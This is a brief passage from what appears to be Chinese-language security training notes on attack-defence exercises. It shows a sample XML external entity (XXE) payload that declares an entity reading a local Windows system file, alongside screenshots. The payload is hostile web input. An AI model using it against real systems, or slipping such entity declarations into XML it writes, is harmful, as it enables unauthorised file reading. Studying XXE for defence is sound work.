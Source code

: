 ![image-20241201234920713](HVV护网专题/image-20241201234920713.png)	

```
使用外部实体引用的payload可以获取敏感数据。
<?xml version="1.0"?>
<!DOCTYPE a[
<!ENTITY  file SYSTEM "file:///c:/Windows/system.ini">
]>
```

![image-20241201234858035](HVV护网专题/image-20241201234858035.png)	
